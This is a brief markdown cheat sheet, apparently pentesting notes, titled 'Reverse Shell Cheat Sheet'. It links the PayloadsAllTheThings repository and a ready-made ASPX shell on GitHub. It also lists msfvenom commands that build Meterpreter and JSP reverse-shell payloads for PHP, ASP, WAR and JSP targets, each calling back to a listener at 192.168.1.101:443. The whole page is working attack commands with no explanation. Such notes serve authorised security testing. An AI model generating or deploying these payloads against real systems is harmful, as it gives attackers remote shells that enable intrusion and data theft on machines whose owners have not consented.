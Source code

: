 ## Reverse Shell Cheat Sheet

[PayloadsAllTheThings Github Repo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## PHP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```

## ASP/ASPX

```
https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp
```

## WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
```

## JSP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp
```